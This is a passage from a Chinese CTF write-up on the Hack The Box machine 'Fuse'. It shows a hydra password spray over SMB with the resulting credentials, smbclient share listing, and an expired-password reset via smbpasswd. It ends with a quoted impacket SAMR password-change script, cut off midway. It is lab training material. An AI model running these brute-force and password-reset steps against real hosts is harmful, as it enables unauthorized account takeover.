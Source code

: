 ```php
hydra -L user.txt -P wordlist.txt http://fuse.fabricorp.local smb
```

得到两个用户名 和 密码

```php
tlavel:Fabricorp01

bhult:Fabricorp01
```

#### 登录共享

```php
smbclient -L 10.10.10.193 -U tlavel
```

![image-20211104183655372](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-306125770ba324d590c34eff8c8bf24090cf04e0.png)

无法直接使用，提示`NT_STATUS_PASSWORD_MUST_CHANGE`

这里 我们的思路 就来了

#### smbpasswd

可以使用旧密码，通过smbpasswd修改密码，之后使用新密码，注意密码需要满足规则

```php
smbpasswd -r 10.10.10.193 -U tlavel
```

成功修改

![image-20211104183939434](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-d0a050825649f0571e5e27172f6d55a064200711.png)

注：通过 SMB 更改密码还可以使用 impacket 的 smbclient.py，但是当密码过期时它就不能用了

Samba 的`NetCommand`也是一样的，不能更改过期的密码

贴一个大佬的脚本

原理：通过一次对[hSamrUnicodeChangePasswordUser2 的](https://github.com/SecureAuthCorp/impacket/blob/2126aa130c26af96301cc6ce00230d1c41ee6809/impacket/dcerpc/v5/samr.py#L2774)调用直接更改的密码

```php
#!/usr/bin/python3

from argparse import ArgumentParser

from impacket.dcerpc.v5 import transport, samr

def connect(host_name_or_ip):
    rpctransport = transport.SMBTransport(host_name_or_ip, filename=r'\samr')
    if hasattr(rpctransport, 'set_credentials'):
        rpctransport.set_credentials(username='', password='', domain='', lmhash='', nthash='', aesKey='') # null session

    dce = rpctransport.get_dce_rpc()
    dce.connect()
    dce.bind(samr.MSRPC_UUID_SAMR)

    return dce

def hSamrUnicodeChangePasswordUser2(username, oldpass, newpass, target):
    dce = connect(target)
    resp = samr.hSamrUnicodeChangePasswordUser2(dce, '\x00', username, oldpass, newpass)
    resp.dump()

parser = ArgumentParser()
parser.add_argument('username', help='username to change password for')
```